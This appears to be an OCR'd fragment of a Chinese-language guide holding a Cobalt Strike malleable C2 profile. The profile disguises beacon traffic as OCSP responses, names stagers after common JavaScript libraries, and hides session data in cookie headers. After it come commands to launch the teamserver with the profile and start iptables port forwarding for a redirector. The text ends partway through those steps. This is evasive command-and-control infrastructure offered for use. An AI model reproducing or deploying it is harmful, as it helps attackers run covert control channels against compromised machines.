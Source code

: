 ```
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/5.0)";

http-get {

    set uri "/api/x";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager {  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/y";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Connection" "keep-alive";
        output {
            base64;
            print;
        }
    }
}
6、启动CS加载profile
./teamserver IP 密码 xxx.profile


#端口转发-Iptables
1、转发机设置转发：(80改443即https)
iptables -I INPUT -p tcp -m tcp --dport 80 -j ACCEPT
```